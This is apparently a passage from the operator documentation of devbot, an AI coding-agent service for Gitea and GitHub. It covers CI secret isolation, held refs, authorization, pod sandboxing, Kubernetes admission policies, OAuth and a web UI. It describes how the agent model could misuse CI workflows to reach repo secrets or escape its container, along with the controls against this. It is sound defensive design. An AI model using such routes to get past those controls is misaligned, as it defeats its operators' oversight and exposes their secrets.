with its Contents write permission. It creates the branch itself, as an
orphan with a README, the first time it attaches a file, and deletes a PR's
`pr-<number>/` directory once the PR is merged or closed and devbot ends the
task. The branch is never merged; don't make it the default branch or base
anything on it. Branch cleanup never deletes it. [forge.md](forge.md#attachments-on-github) has the details,
including exactly when the cleanup runs.

If branch protection or a ruleset covers `devbot/attachments` (a ruleset
targeting all branches, or one restricting branch creation or requiring PRs),
GitHub refuses those pushes. devbot then opens the PR without its
attachments, says in the PR's Attachments section that the upload failed,
and the error names the fix: add the implementer App to the ruleset's
**bypass list** for `devbot/attachments` (or exclude that branch from the
ruleset or protection rule). A failed cleanup is only logged, at warn.

### CI on devbot's branches

devbot pushes the implementer's work to `devbot/*` branches in the repo
itself, not a fork, so the forge runs CI on every push there, and on its PRs,
with the repo's secrets, before anyone has reviewed the change. devbot never
pushes work that touches a [protected path](devbot-yaml.md#protected-paths),
which covers the CI configuration by default, unless a person approved
exactly what the change leaves in it ([Changes a person may
approve](devbot-yaml.md#changes-a-person-may-approve)); until then it keeps
the work at `refs/devbot/held/<issue>`, which runs no CI ([below](#held-changes-run-no-ci)).
But CI also runs code it doesn't protect: build scripts, the Makefile,
package scripts, the tests themselves. Treat CI on `devbot/*` like CI on a
pull request from a stranger: **give it no secrets, or make secrets need a
person's approval.**

**Gitea.** Gitea Actions gives a workflow run on a branch of the repo its
secrets, and its approval step is only for pull requests from forks, which
devbot's aren't. So keep secrets away from those runs in the workflows:

- Run workflows that need secrets (deploys, publishing, anything with a
  token) only on the default branch and tags, with `on: push: branches: [main]`
  or `branches-ignore: ['devbot/**']`, and not on `pull_request`.
- In a workflow that has to run on `devbot/*` too, keep the steps that need a
  secret in their own job with
  `if: ${{ !startsWith(github.ref_name, 'devbot/') && !startsWith(github.head_ref, 'devbot/') }}`.

These workflow files are themselves protected by default, so the implementer
can't undo them without a person's approval. The comment that asks for it
flags a change that removes such a `branches-ignore` or `if:`, adds a
trigger that reaches `devbot/**`, `pull_request_target` or `workflow_run`,
adds a use of the repo's secrets (`secrets.NAME`, `secrets[...]`,
`toJSON(secrets)`, `secrets: inherit`), or has a `run:` step that calls a
file the same commit changes; read those closely before approving. With
`approvable_paths: []`, nothing can change them.

**GitHub.** Repository and organization secrets reach a workflow run on any
branch. Move the secrets CI needs into an
[environment](https://docs.github.com/actions/deployment/targeting-different-environments/using-environments-for-deployment)
and either limit its **deployment branches** to the default branch (or to
protected branches, which `devbot/*` mustn't be) or give it **required
reviewers**, so a job that uses it on a `devbot/*` branch fails or waits for
a person. `branches-ignore: ['devbot/**']` on secret-using workflows, as on
Gitea, works too, as long as nobody approves a change that drops it: by
default `.github/**` is protected and a change to it waits for a person's
approval, and GitHub refuses a push that changes `.github/workflows/` from a
token without the **Workflows** permission. A repo whose `protected_paths`
leaves `.github/**` out, with the implementer App granted Workflows write
(see [below](#workflow-files-and-rebases)), lets the model write a workflow
that runs on `devbot/*` with every secret that reaches the branch, and drop
a `branches-ignore` on the way, with nobody asked. There, environments with
deployment-branch limits or required reviewers are the only guard, since
they're set outside the repo's files.

#### Held changes run no CI

Work held for a person's approval is kept on the forge at
`refs/devbot/held/<issue>`, and what its PR is to say at
`refs/devbot/held-pr/<issue>`: refs that are neither branches nor tags, so
they survive the job pod and devbot restarting without starting any CI.
Once the held change is on its branch, devbot deletes them; a later hold of
the task overwrites them. A person with read access can look at one with
`git fetch origin refs/devbot/held/<issue>` and
`git diff origin/main...FETCH_HEAD`.

This was checked live against Gitea 1.24.6 and 28.2.0 with Actions on, on a
repo whose workflow ran on `push`, `create`, `delete`, `pull_request` and
`pull_request_target` with no branch filter: pushing a commit that changes
the workflow to `refs/devbot/held/7`, force-updating it and deleting it
started no Actions run, while pushing the same commit to
`refs/heads/devbot/7-x` started its `push` and `create` runs. The commit
fetched back intact into a fresh clone. `hack/held-ref-check` repeats the
check against any Gitea. GitHub wasn't checked live; its docs describe the
`push` and `create` events in terms of branches and tags. A forge rule that refuses a push
to a ref outside `refs/heads/` and `refs/tags/` stops the task at
`needs-human`, quoting it, as any [refused push](#workflow-files-and-rebases) does.

### Cancelled checks

A check whose run was cancelled before it finished says nothing about the
code, so devbot doesn't send the PR back to the implementer for it, and it
uses no review round. Runs are cancelled by CI itself, most often by a
`concurrency` group that another branch's runs share. devbot reads a check
as cancelled when:

- **Gitea:** an Actions job's status (one linking to a run of the repo)
  says "Canceled after ..." ("Has been cancelled" in older versions).
  Gitea reports these as failures; another CI's statuses are read as they
  are.
- **GitHub:** a check run's conclusion is `cancelled`.

When every failing check on the PR's head was cancelled, devbot re-runs
their workflow runs on the same head, each run once, through the forge's
Actions API (`POST /repos/{owner}/{repo}/actions/runs/{run}/rerun-failed-jobs`,
which re-runs a run's failed and cancelled jobs). It says so on the issue
("CI on PR #N was cancelled, not failed ... Re-running it on the same head
(1 of 3)") and the task stays in `devbot/in-review`; the review goes ahead
once the checks pass. A cancelled check beside one that really failed is
part of a CI failure, and goes back to the implementer with it.

A head gets at most 3 re-runs, at least 5 minutes apart, counted from those
comments since the last retry. When its checks are cancelled again after
the third, or devbot can't re-run them (another CI's check, a Gitea without
the Actions run API, or the forge refusing the implementer), the task stops
at `devbot/needs-human`, naming the checks. Fix what cancels them, re-run
them on the forge, then add `devbot/ready` to retry.

The re-runs are made as the implementer. On Gitea its write access to the
repo covers them. On GitHub the implementer App needs the optional Actions
read and write permission (see [GitHub](#github)); without it every
cancelled check stops the task.

### What CI said

A CI fix round tells the implementer more than which checks failed. For
each failed check that wasn't cancelled and isn't one of
[`human_checks`](devbot-yaml.md), devbot's harness asks the forge why,
when the round's job starts, and puts the answer in the run's
`.devbot/context.md` under "What CI said", below the round's reason. The
reviewer's context gets the same under its CI result whenever the head's CI
failed. What the forge has depends on the check:

- **An Actions job (Gitea, GitHub):** the end of the job's log, its last
  [`ci_failures.log_lines`](#deployment-config-config) lines. On Gitea the
  job is found from its status's link among its run's jobs
  (`GET /repos/{owner}/{repo}/actions/runs/{run}/jobs`), and the log read
  with `GET /repos/{owner}/{repo}/actions/jobs/{job_id}/logs`; both came in
  Gitea 1.24, so an older Gitea gives no logs. On GitHub an Actions job's
  check run has the job's ID, and its log is read with
  `GET /repos/{owner}/{repo}/actions/jobs/{job_id}/logs`, which needs the
  Actions read permission (see [GitHub](#github)). GitHub sends the log
  from storage on another host; the token isn't sent there.
- **A GitHub check run, from any App:** its output's title, summary and
  text, and its annotations (path, line range, level, title and message),
  every page of them up to 500. A run from Actions gets its log as well.
- **A plain commit status (any forge), or a Gitea status from another CI:**
  its description and link, as in the round's reason, and a line saying
  the details are behind that link, which the agent may not be able to open.

The checks are read with the token that already reads CI, as whichever bot
runs the job. Everything comes from CI running the PR's own code, so it is
fenced as untrusted, with terminal escapes and other control characters
removed and devbot's markers defanged, and capped at
[`ci_failures.max_bytes`](#deployment-config-config) across all the checks.
Nothing else from the forge's API goes in: secrets the forge masks in a log
stay masked, and a forge's error isn't quoted. When the details can't be
read (a log that expired, a 404 from an older Gitea, a 403 for a missing
permission), the round goes ahead with the summary line and a note saying
the details weren't available; the error is logged at warn. None of it goes
on the issue: the comment that starts the round has the summary lines alone.

### Deleting merged branches

Turn on the forge's delete-head-branch setting on every repo devbot serves:
**Automatically delete head branches** in a GitHub repo's settings, and
`default_delete_branch_after_merge` (**Delete pull request branch after
merge by default**) on Gitea. It's the repo owner's policy, and devbot never
changes it.

devbot's own [branch cleanup](forge.md#branch-cleanup) is the backstop. It
deletes the `devbot/*` branches the setting leaves: those of PRs closed
without merging, of cancelled tasks, of attempts that failed before opening
a PR, and of merges the setting didn't apply to (Gitea's only preselects the
checkbox in the merge dialog). A branch the forge already deleted is fine
and isn't counted in `devbot_branches_deleted_total`. A repo turns devbot's
cleanup off with [`branch_cleanup: false`](devbot-yaml.md#keys).

### Who can direct devbot

There is no install-wide list of people. On every repo, the forge decides:
anyone it gives at least `authorization.min_permission` (default `write`),
directly or through an org team, may direct devbot, as may devbot's own bot
users. A repo's owner can narrow that further with `authorized_users` in its
`.devbot.yaml` (see [devbot-yaml.md](devbot-yaml.md#who-can-direct-devbot));
nothing widens it. Its `trusted_reviewers` only let review bots' change requests
count on its PRs ([Trusted reviewers](devbot-yaml.md#trusted-reviewers)); they
direct nothing else.

To ask, the implementer bot reads the actor's permission from the forge (in a
review pod, which holds the reviewer's credential alone, the reviewer does,
for the reviewing model's context), and forges guard that:

| Forge | Endpoint | The bot needs |
|---|---|---|
| Gitea | `GET /repos/{owner}/{repo}/collaborators/{user}/permission` | admin on the repo, or on the org team that holds the repos. Not site admin (see [Security](#security)). |
| GitHub | `GET /repos/{owner}/{repo}/collaborators/{user}/permission` | its App installed on the repo, with Metadata read, which every installation has. No admin role. GitHub's roles map onto `min_permission` as they're named; triage counts as `read`, and a custom role as the base role it builds on. |

When the forge refuses, devbot fails closed: the person is treated as
unauthorized. It's still a setup problem rather than a "no", so devbot logs it
at warn with the repo and actor, counts it in
`devbot_authz_lookup_errors_total`, and its comment on the issue says it
couldn't check the person's permission and what access the bot needs.

These rules apply to whoever acts on the forge: a person in the UI, or, with
`auth.mode: oauth`, a person calling a connector, who acts as themselves
(see [Connector auth](#connector-auth)). In mode `none`, connector calls are
made by the implementer bot, which is always authorized.

An issue edited after approval carries on only when the forge names an
authorized editor for every change, which Gitea's API never does for a body.
[`edit_task`](connectors.md#editing-a-task) is the way to redirect a task
without that: devbot checks the caller under these rules, makes the edit as
the implementer bot, and pins the new text to the caller, so the task carries
on, on every forge.

## Security

A job pod runs a model on code and instructions that may come from
anyone who can open an issue or push to a PR. The pod is built so that
the model can't reach a forge or model credential (see
[architecture.md](architecture.md#a-job-pod)), and so that even a container
escape, or a bug in how the harness's git reads what the model leaves,
reaches as little as possible.

**What each container holds.**

| Container | Forge credential | Model credential | Runs as |
|---|---|---|---|
| serve | both bots', the webhook secrets, `secrets.auth` | none | uid 65532, read-only root filesystem, no capabilities |
| implement pod: harness | the implementer's, alone | none | uid 65532, read-only root filesystem, no capabilities, no privilege escalation |
| review pod: harness | the reviewer's, alone | none | the same |
| either pod: model proxy | none | its harness's (`secrets.agents`), or the role's AWS one | root in a user namespace, read-only root filesystem, no capabilities, no privilege escalation |
| either pod: agent | none | none: the model proxy's placeholder | root in a user namespace, no privilege escalation, without `NET_RAW` and `MKNOD` |
| Docker pod: `docker` ([Docker](#docker)) | none | none | uid 1000 in a user namespace, seccomp and AppArmor unconfined, no API token |

Every job pod runs under the container runtime's default seccomp profile,
mounts no Kubernetes API token, and runs as its role's own ServiceAccount.
A [Docker](#docker) pod's `docker` sidecar is the exception to the first: it
runs with seccomp and AppArmor unconfined ([dind](#dind)), and like the rest
of the pod holds no API token.
With `docker.mode: dind`, the chart also runs the TUN device plugin
DaemonSet ([dind](#dind)), the one workload in the node's user namespace:
root there, for the kubelet's socket, but not privileged and with no
capabilities, and it holds no credential, no API token and no network. No
container in the chart is privileged.

**One bot per pod.** An implement pod can push and open PRs but can't
approve or merge; a review pod can review and merge but can't push as the
implementer; neither has a webhook secret. A job pod does only its own
bot's part: it reads the task, does its job, and acts on the issue as its
own bot (the reviewer comments on the issue itself when a review keeps
failing). The evaluation that follows a job, which may label as the
implementer or merge as the reviewer, is serve's: the pod asks for it
(`devbot:eval-requests`), and serve evaluates within a second, or the
reconcile loop does if the request is lost. On GitHub, a pod can't read the
other App's login without its key, so serve records both bots' logins in
Redis on each reconcile pass; a job pod that starts before serve's first
pass after a Redis wipe exits, and KEDA starts another.

**Tokens.** On GitHub, every token a job uses is an installation token for
the task's repo alone, with its role's permissions (see [GitHub](#github)),
and expires within the hour. Gitea tokens can't be limited to a repo, or
made short-lived: a bot's token reaches every repo its user can until it is
revoked. That is an accepted limit; keep each bot user to devbot's repos,
as a collaborator or an org-team member, and never a site admin (see
[Gitea](#gitea)).

**The agent runs as root**, because the model installs what each repo
needs, with `apt-get`, as it goes. Its root is only root inside the pod's
user namespace (`jobs.userNamespaces`, on by default): on the node, it is an
unprivileged user that owns nothing. The harness runs as an ordinary user,
with no capabilities and a read-only root filesystem, so a bug in how it
handles what the model leaves gains no more than its own bot's credential.

**serve's access to pods.** With `podLabels.enabled`, serve is the only
part of devbot with Kubernetes API access: a Role, bound to its own
ServiceAccount, that may `get` and `patch` pods in the release's namespace
(no `list`, `watch`, `update` or `delete`), to [label job
pods](#labelling-job-pods). A Role rule can't be narrowed with
`resourceNames`: KEDA's Jobs name their pods as they start them, and
`resourceNames` matches whole names only, not prefixes or labels. So the
Role reaches every pod in the namespace, and a pod patch can change a
container's image: on its own, it would let whoever takes over serve run
their code in any pod there.

The chart therefore installs a ValidatingAdmissionPolicy and its binding,
`<namespace>-<release>-serve-pods`, which apply to every request serve's
ServiceAccount makes on pods and their subresources. Each is denied
(`Forbidden`, saying which rule) unless all of these hold:

- it updates a pod itself: no create, delete, exec, attach, port-forward or
  subresource;
- the pod, as it was, is one of this release's job pods:
  `app.kubernetes.io/instance` is the release and `app.kubernetes.io/component`
  is `implement` or `review`;
- the pod's `spec`, owner references and finalizers are unchanged, so the
  pod stays in its Job's hands;
- every label and annotation added, changed or removed is under
  `devbot.io/` or `labels.devbot.io/`; any other stays as it was.

The policy binds serve alone, and fails closed (`failurePolicy: Fail`).
ValidatingAdmissionPolicy is GA from Kubernetes 1.30, on unless the cluster
turns it off. When `helm install` or `helm upgrade` finds a cluster without
it, the chart refuses to render with `podLabels.enabled` unless
`podLabels.allowUnrestrictedPatch: true` accepts serve's unbounded Role.
Rendered without a cluster (`helm template`), the policy is always included,
and applying it fails where the API is missing.

With `services.enabled`, serve's Role may also `list`, `create` and `delete`
pods, and `list`, `create` and `delete` NetworkPolicies, to run each run's
[service pod](#service-containers). Creating a pod is as much as taking the
namespace: a pod can run as any ServiceAccount there, mount its Secrets or
the node's filesystem. So the same policy denies serve every create and
delete but those of this release's service pods (`app.kubernetes.io/component:
services` and a `devbot.io/run` label), and a create unless the pod is
shaped as devbot makes one:

- owned by one Job, and nothing else;
- running as `<release>-services` with no API token;
- no host network, PID or IPC, no volumes, no init or ephemeral containers;
- the RuntimeDefault seccomp profile, and every container without
  privilege, privilege escalation, added capabilities or mounts;
- no container or pod setting that loosens confinement again: a seccomp
  profile other than RuntimeDefault, an Unconfined AppArmor profile, SELinux
  options, sysctls or an unmasked `/proc`;
- env of literal values only: no `valueFrom` or `envFrom`, so no Secret or
  ConfigMap reaches a container (and from there serve, through its
  termination message);
- `imagePullSecrets` naming only Secrets the install's `imagePullSecrets`
  lists (none by default). The kubelet alone reads them, but a Secret of
  serve's choosing would hand its credential to whatever registry an
  allowed image is pulled from;
- no host ports, lifecycle hooks, liveness or startup probes, and only exec
  or local TCP readiness probes, so nothing reaches past the pod's network;
- no `nodeName`, `priorityClassName` or `resourceClaims`;
- CPU, memory and ephemeral-storage limits on every container;
- no AppArmor or seccomp annotation (`container.apparmor.security.beta.kubernetes.io/*`,
  `seccomp.security.alpha.kubernetes.io/pod` and the like): the legacy
  forms of the profiles above, refused outright rather than trusting the
  API server to fold them into the fields first;
- with `jobs.userNamespaces`, `hostUsers: false`; with
  `jobs.runtimeClassName`, that RuntimeClass;
- every image under a prefix in `config.repos.limits.services.images`, or one it names exactly (any image with `["*"]`). The chart refuses an entry that is neither a prefix ending in `/`, `:` or `@` nor an image with a tag or digest, as serve does.

A second policy, `<namespace>-<release>-serve-networkpolicies`, lets serve
only create and delete NetworkPolicies of this release's service pods, and
only ones that select a single run's service pod and allow ingress, so
serve can't open anything else in the namespace. A third,
`<namespace>-<release>-serve-placement`, denies serve a service pod without the
`nodeSelector`, `tolerations` and `affinity` of job pods
(`jobs.nodeSelector`, `jobs.tolerations`, `jobs.affinity`), with any other,
or with a scheduler but the default one, so a service pod lands on no node
job pods can't, the control plane or a tainted pool included. What
admission adds before any policy runs is let through on top: the API
server's not-ready and unreachable tolerations, and with
`jobs.runtimeClassName` that RuntimeClass's `scheduling.nodeSelector` and
`scheduling.tolerations`. The RuntimeClass is the policy's parameter, read
as each pod is created; while it doesn't exist, every service pod is
refused. Without ValidatingAdmissionPolicy, the chart refuses
`services.enabled`.

`get` still reads any pod in the namespace, the env of its spec included, so
**install devbot in a namespace of its own**: then neither the Role nor the
policy reaches anything that isn't devbot's.

**Hardening, in order of effect:**

1. **User namespaces**: leave `jobs.userNamespaces` on. Where nodes can't
   run them (see [Helm values](#helm-values)), the pods don't start; turning
   it off makes root in the agent root on the node once it escapes, so add
   a sandboxed runtime then.
2. **A sandboxed runtime**: `jobs.runtimeClassName` names a RuntimeClass
   installed on the nodes, such as gVisor's (`runsc`), which gives each pod
   a kernel of its own in user space, or Kata Containers', which runs each
   pod in a lightweight VM. An escape then lands in the sandbox, not on the
   node. Most builds and tests run unchanged, if a little slower;
   nested containers (Docker inside the agent) don't work.
3. **Dedicated nodes**: taint a node pool for job pods
   (`kubectl taint nodes <node> devbot.example/jobs=true:NoSchedule`),
   label it, and point `jobs.nodeSelector` and `jobs.tolerations` at it
   (`jobs.affinity` for anything a selector can't say). serve, Redis and
   everything else stay off those nodes, so a pod that escapes finds no
   other workload's secrets there.
4. **Egress**: leave `networkPolicy.enabled` on, and keep its allowlist
   short (see [Egress](#egress)): a pod that is turned against you then
   reaches DNS, Redis, its model API and what you listed, not the cluster,
   the LAN or the internet.

```yaml
jobs:
  userNamespaces: true
  runtimeClassName: gvisor
  nodeSelector: {devbot.example/jobs: "true"}
  tolerations:
    - {key: devbot.example/jobs, operator: Exists, effect: NoSchedule}
```

## Connector auth

`auth.mode` decides who connector callers (MCP and `/api`) are. The details,
from a client's side, are in [connectors.md](connectors.md#authentication).

- **`none`** (default): every call is `anonymous_principal`, and the implementer bot does what it asks. **No forge permission applies to callers**: anyone who can reach serve can start work in any repo devbot is enabled for. Use it only on a trusted network, and leave `anonymous_principal` empty to turn the connectors and the [web UI](#web-ui) off. Either way serve answers them only at the names in [`allowed_hosts`](#dns-rebinding).
- **`oauth`**: every caller is a person signed in through the forge, which is the identity provider (with whatever login it uses: local, SSO, Keycloak, Entra). devbot runs its own OAuth authorization server for its clients and is one OAuth client of the forge. What a caller starts (filing, answering, cancelling, retrying) is done on the forge with their own token, so the forge's permissions and the [rules above](#who-can-direct-devbot) apply to them; they only see tasks on repos they can read. The bots keep devbot's own work: the implementer's branches, commits, PRs, comments and label transitions, a `retarget`'s move of the PR and an `edit_task`'s edit of the issue (once the caller is checked under the same rules), and the reviewer's reviews and merges.

To turn on `oauth`:

1. **Register one OAuth app on the forge** for the install (on GitHub, set up the implementer App for sign-in; below), with the redirect URI `<auth.resource_url>/oauth/callback`.
2. **Generate the auth key**: `openssl rand -base64 32`.
3. **Create the Secret** named by `secrets.auth`, with the app's client ID and secret and the key under the env var names in `auth.client_id_env`, `auth.client_secret_env` and `auth.key_env`. Only serve mounts it.
4. **Set `config.auth`**: `mode: oauth`, `resource_url`, the three `*_env` names, and `provider` if the install has more than one forge.
5. **Expose serve at the root of a host** (`ingress`, or `virtualService` with its default `prefix: /`), since clients look for OAuth metadata at the host's own `/.well-known/`.

```yaml
config:
  auth:
    mode: oauth
    resource_url: https://devbot.example.com
    client_id_env: DEVBOT_OAUTH_CLIENT_ID
    client_secret_env: DEVBOT_OAUTH_CLIENT_SECRET
    key_env: DEVBOT_AUTH_KEY
secrets:
  auth: devbot-auth
```

### DNS rebinding

In mode `none`, nothing in a request says who sent it, so a web page could
read the connectors and the UI by DNS rebinding: its own name, once its page
has loaded, resolves to serve's address, and the browser then treats serve
as the page's origin. Its reads are same-origin and carry no `Origin`
header, so [`allowed_origins`](connectors.md#browsers) can't refuse them;
their `Host` header is still the attacker's name. So in mode `none`,
`/api`, `/mcp` and `/ui` answer only requests whose `Host` is
`auth.resource_url`'s host, an `allowed_origins` host, one of
`allowed_hosts`, an IP address or `localhost`, and refuse any other with
`421`. The chart puts the Service's in-cluster names, `virtualService.host`
and `ingress.host` in `allowed_hosts`; add any other name clients use (a
proxy's that rewrites `Host`, for example). Webhooks, `/healthz` and
`/readyz` answer any name. Mode `oauth` needs no such check: a rebinding
page has no devbot token or session cookie to send.

### The forge's OAuth app

devbot asks the forge for the fewest scopes that let it act for someone:

| Forge | Scopes | For |
|---|---|---|
| Gitea | `read:user` | who signed in (`GET /user`) |
| | `read:repository` | their own access to a repo, to hide tasks on repos they can't read (`GET /repos/{owner}/{repo}`) |
| | `write:issue` | filing issues, commenting, adding and removing labels as them, checking they may label issues (an edit of label 0, which Gitea refuses before looking it up), and closing an issue Gitea created without its label |
| GitHub | none | a GitHub App's permissions replace scopes (below) |

On **Gitea**, as an admin (Site Administration, Integrations, Applications)
or as the org or user that owns the app (Settings, Applications), add an
OAuth2 application named `devbot`, with the redirect URI above and
"Confidential client" checked. Or through the API:

```bash
curl -u <admin> -X POST https://gitea.example.com/api/v1/user/applications/oauth2 \
  -H 'Content-Type: application/json' \
  -d '{"name":"devbot","redirect_uris":["https://devbot.example.com/oauth/callback"],"confidential_client":true}'
```

Verified against Gitea 28.1.0: the token Gitea issues carries exactly these
three scopes, so anything else (creating a repo, listing orgs, notifications)
is refused, with or without `[oauth2] ENABLE_ADDITIONAL_GRANT_SCOPES`. devbot
uses PKCE with Gitea too. Also set `[oauth2] INVALIDATE_REFRESH_TOKENS =
true` in Gitea's `app.ini`: by default Gitea keeps accepting a refresh token
after using it. devbot works either way. Gitea keeps one OAuth grant per
user and application, so each refresh or sign-in invalidates the refresh
tokens before it; devbot therefore keeps one forge token per person, shared
by all of their sign-ins and refreshed once between them (see
[connectors](connectors.md#one-forge-token-per-person)). Older Gitea and Forgejo releases
weren't verified, so check what scopes the token they issue carries.

On **GitHub**, people sign in with a **GitHub App's user access tokens**,
not with an OAuth App. A user access token can only do what both the
person and the App may, and only on the repos the App is installed on. An
OAuth App would need the `repo` scope to file an issue, and that reaches every
private repo the person can see. An App has no scopes: its repository
permissions (Issues read and write, Metadata read, plus what the bot needs)
take their place, so devbot asks for none.

By default, the sign-in App is the **implementer App**: put its client ID and
a client secret (generated on the App's settings page) in `secrets.auth`
under the names `auth.client_id_env` and `auth.client_secret_env` give. On
the App's settings page:

- **Callback URL:** `<auth.resource_url>/oauth/callback`.
- **Expire user authorization tokens:** leave it checked, the default. A
  person's token then lasts 8 hours, and devbot refreshes it with a refresh
  token that lasts 6 months. Each refresh rotates both, and the used refresh
  token stops working, so devbot never refreshes one person's token twice at
  once, across replicas too: it holds the person's lock for the refresh.
  When GitHub refuses a refresh, the person's sign-ins end and they sign in
  again. Unchecked, tokens never expire, which devbot handles, but a leaked
  one then works until the person revokes it.
- **Request user authorization (OAuth) during installation** and **Enable
  Device Flow:** leave them off. Headless callers use
  [devbot's device flow](connectors.md#headless-callers), not GitHub's.

devbot uses the web flow with PKCE (`S256`, the only method GitHub supports).
On GitHub Enterprise Server the pages are on the host, derived from `url`
(`https://<host>/login/oauth/authorize`).

A **separate sign-in App** works too: an App with Issues read and write and
Metadata read, installed on the same repos, whose client ID and secret go in
`secrets.auth` instead. devbot needs no private key for it.

GitHub hides a repo the sign-in App isn't installed on from the person's
token as if it didn't exist, so through devbot that repo is invisible to them,
even where GitHub gives them a role: its tasks don't show, and a call on it is
"not found, or not visible through your sign-in". On a public repo, where
GitHub lets the token read, a write the App can't make there says so. devbot maps GitHub's roles
onto its own: `admin`, `maintain` and `write` are themselves, and `triage` and
`read` are read. Someone needs `triage` or higher to file a task, since GitHub
lets nobody below it label issues. Relied on: GitHub's docs "Generating a user
access token for a GitHub App", "Refreshing user access tokens" and
"Differences between GitHub Apps and OAuth apps".

### The auth key

devbot keeps each signed-in person's forge token in Redis, one per person
and shared by their sign-ins, sealed with AES-256-GCM under a key derived
from `auth.key_env`, and bound to that person. devbot's own tokens are stored only as SHA-256 hashes. Every other sign-in record (grants, token records, codes, client registrations) carries an HMAC-SHA256 under another key derived from it, bound to the record's Redis key: one written or edited by anyone without the auth key counts as absent. No token is
logged. Losing the key, or wiping Redis, loses nothing but sign-ins:
everyone's next call is a `401`, and their client signs in again.

#### Rotating the auth key

1. Generate a new key. Put the current key in the Secret under a new name, set `auth.previous_key_env` to that name, put the new key under `auth.key_env`, and restart serve.
2. New sign-ins are sealed with the new key, and each stored forge token and sign-in record is re-sealed or re-signed the first time it's used.
3. After `auth.refresh_token_ttl`, every sign-in still standing has been used since, or has expired. Remove `auth.previous_key_env` and the old key, and restart. Anyone whose forge token is still sealed with the old key is signed out everywhere, and signs in again.

If the key leaked, skip the previous key: replace it and restart, which ends
every sign-in at once. Rotate the forge app's client secret too.

### Rate limits

The OAuth endpoints are open to anyone, and most of them write to Redis,
which sign-ins and the queue share. So serve limits each client address
with a token bucket per endpoint (`auth.rate_limits`): `/oauth/register`,
`/oauth/authorize` (with `/ui/login`), `/oauth/device_authorization`,
`/oauth/token` and the device page `/oauth/device`. Over its limit, an
address gets `429 Too Many Requests` with `Retry-After`: an OAuth error
(`slow_down` from the token endpoint, so a polling device backs off) or,
for pages, a page saying to wait. One address may also register only
`auth.rate_limits.clients_per_address` clients a day. The buckets live in
each serve replica's memory, so a restart empties them, and an address
whose requests reach N replicas gets up to N times each limit; the
registration count is in Redis, so it holds across replicas. An IPv6
client is limited by its /64.

A request whose client address can't be told (through a trusted proxy that
names none) isn't limited: one bucket for everyone would let anyone turn
everyone away.

### Behind a proxy

serve limits requests and wrong [device codes](connectors.md#the-device-flow-and-phishing)
per client address, and the address it sees is the TCP peer's. Behind an
ingress, a mesh or a load balancer, that is the proxy. By default no proxy
is trusted: `X-Forwarded-For` is ignored, so everyone behind one proxy
shares one bucket, and ten wrong device codes from anyone there turn the
rest away for ten minutes. The per-code lockout holds either way. With
`auth.dynamic_device_grant` on and no `trusted_proxies`, serve warns about
this at startup.

For a limit per client, list in `trusted_proxies` every hop between the
client and serve that appends to `X-Forwarded-For`, and nothing else. A
range clients can connect from themselves (the office LAN, or the nodes'
addresses when a load balancer rewrites public sources to them) lets those
clients name any address they like. serve takes the nearest hop that isn't
listed, so a missing hop makes the limit that proxy's, not the client's.

- **Istio, sidecar and ingress gateway** (the chart's VirtualService): the
  sidecar, which connects from loopback (`127.0.0.0/8`, `::1/128`), and the
  gateway pods (their pod CIDR, or the node pool they run on).
- **An ingress controller without a mesh**: the controller pods' CIDR.
- **An HTTP load balancer** in front of either: its addresses too. A TCP
  load balancer doesn't append to the header; if it rewrites the source,
  the gateway sees it instead of the client, so preserve the source
  (`externalTrafficPolicy: Local`, or the PROXY protocol) rather than
  trusting it.

With the chart, set `virtualService.trustedProxies`. It is rendered into the
config only in `auth.mode: oauth`, the only mode with per-address limits, and
`config.trusted_proxies` wins over it:

```yaml
virtualService:
  enabled: true
  trustedProxies: [127.0.0.0/8, ::1/128, 10.42.0.0/16]   # sidecar, gateway pods
```

## Web UI

An optional, read-only page for what devbot is doing: the jobs running now,
what's queued and delayed, the open tasks with what's stuck first, each
task's timeline, and the event feed. Turn it on with `ui.enabled` (the
chart's `ui.enabled`) and open `<serve>/ui/`. The root, `<serve>/`,
redirects there too, so an install at the root of its own host opens the UI
at `https://host/` while `/mcp`, `/api/*`, `/webhooks/*`, `/healthz`, `/readyz` and the
OAuth routes stay where they are. Behind a path prefix the prefix root
(`https://host/devbot/`) does the same.

| Page | Shows |
|---|---|
| Running (`ui/`) | Every implement and review job holding a lease: kind, repo, issue (title and link), PR, attempt N of M or review round, the pod holding the lease, how long ago it started, the last heartbeat. Exact times are in the tooltips, and a long reason shows two lines with the rest on hover. Then the queued jobs, and the delayed ones with when they're released, and the usage-limit hold if there is one. Refreshes every 5 seconds. |
| Tasks (`ui/tasks`) | Open tasks grouped by state, `needs-human`, `needs-approval` and `needs-info` first, then `working`, `in-review`, `changes-requested`, `approved`, `ready`. Each with its repo, issue, how long it's been in its state, PR, automerge, its base branch when that isn't the default branch, origin, requester and devbot's latest comment. Filter by repo and state. |
| Task (`ui/task?ref=...`) | One task's events and status comments in order, with the reasons for fix rounds and `needs-human`, and links to the issue, PR and branch, and its base branch when that isn't the default branch. |
| Events (`ui/events`) | The event feed, newest first, filtered by repo, type and origin prefix, with the task's base branch when that isn't the default branch. |

On an install with a single provider, repos show as `owner/name`, with the
full `provider:owner/name` in a tooltip.

Every page is a client of the same data as the [HTTP API](connectors.md#tools) (`/api/jobs`, `/api/tasks?detail=1`, `/api/task/timeline`, `/api/events/recent`),
through the same visibility rule; nothing is cached beyond a minute. Links go
to the forge's own pages, built by its adapter. The pages are rendered by
serve from templates and assets embedded in the binary: no build step, no CDN,
and a little JavaScript of its own that refreshes the page in place. They
link relatively, so they work behind a proxy that strips a path prefix
(`https://host/devbot/ui/`). Every response carries
`Content-Security-Policy: default-src 'none'; script-src 'self'; style-src 'self'; ... frame-ancestors 'none'`,
`X-Frame-Options: DENY` and `Cache-Control: no-store`, and every string from
the forge is escaped by `html/template`.

Who sees what follows `auth.mode`:

- **`none`**: the UI reads as `anonymous_principal`, like the connectors,
  and shows every repo devbot works in. With `anonymous_principal` empty,
  which closes the connectors, every page answers `401` and shows no task.
  Set one only on a trusted network, and only at the names in
  [`allowed_hosts`](#dns-rebinding).
- **`oauth`**: a person signs in from the UI's "Sign in" link, through
  devbot's broker and the forge's login, the same app as the connectors
  (the redirect URI is still `<auth.resource_url>/oauth/callback`). The
  browser gets a session cookie: `HttpOnly`, `SameSite=Lax`, `Secure` on
  https, scoped to `<auth.resource_url's path>/ui/`, and good for 12 hours.
  Every page, running and queued jobs included, shows only tasks and jobs on
  repos the person can read on the forge (`CanRead`, as for the API): a job
  on any other repo isn't listed at all. The cookie only opens the UI: the
  API and MCP still want a bearer token. Signing out is a same-origin post
  with a token tied to the session, and ends it on the server. With a path
  prefix, `auth.resource_url` must include it, so the cookies are scoped
  where the browser sends them.

## Coordination between tasks

